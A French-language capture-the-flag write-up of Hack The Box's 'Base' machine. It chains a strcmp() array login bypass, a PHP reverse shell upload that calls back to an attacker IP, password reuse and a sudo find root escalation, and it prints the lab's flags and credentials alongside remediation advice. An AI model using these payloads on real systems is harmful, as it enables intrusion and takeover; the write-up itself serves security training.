










> **Plateforme :** Hack The Box — Starting Point
> **Catégorie :** Web (upload + strcmp bypass) → RCE → sudo find
> **Difficulté :** Very Easy
> **Auteur :** 3ch0
> **Services :** `22/tcp` (OpenSSH 7.6p1), `80/tcp` (Apache 2.4.29 Ubuntu)
> **Flag user :** `f54846c258f3b4612f78a819573d158e`
> **Flag root :** `51709519ea18ab37dd6fc58096bea949`

---

## 1. Reconnaissance

```bash
nmap -sC -sV 10.129.95.184
```

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Welcome to Base
```

Deux services : **SSH** et un **serveur web Apache**. La page d'accueil affiche un template "Base".



---

## 2. Fuzzing web

```bash
ffuf -u http://10.129.95.184/FUZZ \
  -w /usr/share/wordlists/dirb/common.txt \
  -e .php,.txt,.html,.bak -mc all -fs 274
```

```text
assets          [Status: 301]
forms           [Status: 301]
index.html      [Status: 200]
login           [Status: 301]
logout.php      [Status: 302]
upload.php      [Status: 302]
_uploaded       [Status: 301] → http://10.129.95.184/_uploaded/
```

Deux découvertes majeures :
- **`/login/`** — dossier de login
- **`/_uploaded/`** — dossier contenant les fichiers uploadés (chemin de dépôt !)

---

## 3. Fuite de code via `.swp`

En listant `/login/` (directory listing activé) :

```bash
curl http://10.129.95.184/login/
```

```text
Index of /login
config.php          61
login.php           7.4K
login.php.swp       16K
```



Le fichier **`login.php.swp`** est un fichier d'échange Vim — le développeur a crashé/fermé Vim sans supprimer le swap. On le télécharge et on l'inspecte :

```bash
wget http://10.129.95.184/login/login.php.swp
strings login.php.swp
```

On y retrouve notamment :

```php
if (!empty($_POST['username']) && !empty($_POST['password'])) {
    require('config.php');
    if (strcmp($username, $_POST['username']) == 0) {
        if (strcmp($password, $_POST['password']) == 0) {
            $_SESSION['user_id'] = 1;
            header("Location: /upload.php");
        }
    }
}
```



---

## 4. Bypass login — `strcmp()` + tableaux

`strcmp($a, $b)` retourne `NULL` si l'un des arguments est un **tableau** (PHP ≤ 7.x, avec un warning). Or `NULL == 0` est `true`. Donc en envoyant `username` et `password` comme **tableaux**, on passe les deux conditions.

Interception Burp (ou curl) sur `POST /login/login.php` :

```http
POST /login/login.php HTTP/1.1
Host: 10.129.95.184
Content-Type: application/x-www-form-urlencoded

username[]=admin&password[]=x
```



**Bypass réussi** — redirige vers la page d upload



---

## 5. Upload d'un reverse shell

Le formulaire (`upload.php`) accepte un fichier via le champ **`image`** :

```html
<input type="file" name="image" multiple class="upload-hidden">
```

Reverse shell PHP (pentestmonkey adapté) :

```php
<?php
set_time_limit (0);
$ip = '10.10.15.244';   // LHOST
$port = 4444;           // LPORT
$sock = fsockopen($ip, $port);
exec("/bin/sh -i <&3 >&3 2>&3");
?>
```

Puis uploader



Listener :

```bash
nc -lnvp 4444
```

Déclenchement via le dossier **`/_uploaded/`** découvert au fuzzing :

```http
http://10.129.95.184/_uploaded/php-reverse-shell.php
```

```text
connect to [10.10.15.244] from 10.129.95.184
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```



### Stabilisation du shell

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
# Ctrl+Z
stty raw -echo; fg
# Entrée, Entrée
export TERM=xterm
```

---

## 6. Pivot vers `john` — réutilisation de mot de passe

Lecture de `config.php` :

```bash
cat /var/www/html/login/config.php
```

```php
<?php
$username = "admin";
$password = "thisisagoodpassword";
```

On teste ce mot de passe pour l'utilisateur `john` (repéré dans `/home/`) :

```bash
ssh john@10.129.95.184
# password: thisisagoodpassword
```

**Réutilisation de mot de passe** → connexion SSH réussie.

### Flag user

```bash
cat /home/john/user.txt
```

```text
f54846c258f3b4612f78a819573d158e
```



---

## 7. Privesc — `sudo find`

```bash
sudo -l
# [sudo] password for john: thisisagoodpassword
```

```text
User john may run the following commands on base:
    (root : root) /usr/bin/find
```



`find` est dans la liste **GTFOBins**. On l'utilise pour exécuter `/bin/bash` en root :

```bash
sudo find / -exec /bin/bash \; -quit
```

```text
root@base:~# id
uid=0(root) gid=0(root) groups=0(root)
```

### Flag root

```bash
cat /root/root.txt
```

```text
51709519ea18ab37dd6fc58096bea949
```



---

## Récapitulatif de la chaîne

1. **nmap** → SSH (22) + Apache (80).
2. **ffuf** → `/login/` et `/_uploaded/`.
3. **`.swp`** dans `/login/` → fuite du code source → `strcmp()` repéré.
4. **`strcmp()` + tableaux** (`username[]=admin&password[]=x`) → bypass login → cookie de session.
5. **Upload** d'un reverse shell PHP (champ `image`) → RCE en `www-data` via `/_uploaded/`.
6. **`config.php`** → `admin:thisisagoodpassword` → réutilisation sur le compte `john` → flag user.
7. **`sudo -l`** → `(root) /usr/bin/find` → `sudo find / -exec /bin/bash \; -quit` → root → flag root.

> **Concepts clés :**
> - **Fuite via `.swp`** : un fichier d'échange Vim non supprimé expose le code source (comme un `.bak`, `.old`, `~`). Toujours vérifier ces artefacts.
> - **`strcmp()` + tableaux** : passer un tableau à `strcmp()` renvoie `NULL`, ce qui vaut `0` en comparaison faible (`==`) → bypass d'authentification. Correction : `is_string()` + `hash_equals()` + `password_verify()`.
> - **Upload sans restriction** : le dossier `/_uploaded/` accessible en lecture **et** exécution PHP → RCE directe. Correction : interdire l'exécution PHP dans le dossier d'upload (`php_flag engine off` dans `.htaccess`), valider extension + MIME + magic bytes.
> - **Réutilisation de mot de passe** : le mot de passe de `config.php` ouvre le compte système `john`. Ne jamais réutiliser les secrets applicatifs pour les comptes OS.
> - **`sudo find`** : GTFOBins — `find` avec `-exec` exécute n'importe quelle commande en root. Correction : principe du moindre privilège, ne jamais accorder `sudo` sur des binaires pouvant exécuter du code.

---

***— 3ch0***
